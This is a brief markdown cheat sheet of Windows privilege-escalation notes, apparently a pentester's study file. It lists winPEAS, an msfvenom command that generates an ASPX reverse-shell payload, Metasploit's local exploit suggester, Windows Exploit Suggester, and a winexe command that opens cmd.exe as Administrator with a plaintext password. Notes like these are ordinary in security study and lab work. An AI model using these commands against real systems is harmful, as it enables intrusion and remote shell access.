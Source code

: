 # Tools
-------------

winpeas requires .NET 4.0 or greater

Generating a msfvenom payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST= RHOST= -f aspx > payload.aspx

```

## Metasploit Exploit Suggester

```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

## Windows Exploit Suggester 
- (https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- copy contents from metasploit exploit suggester (.xls) and systeminfo (.txt) and pass it to the script

## winexe 
- [ ] check how to install winexe in ubuntu
- winexe is used to execute windows commands from linux 

```bash
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```



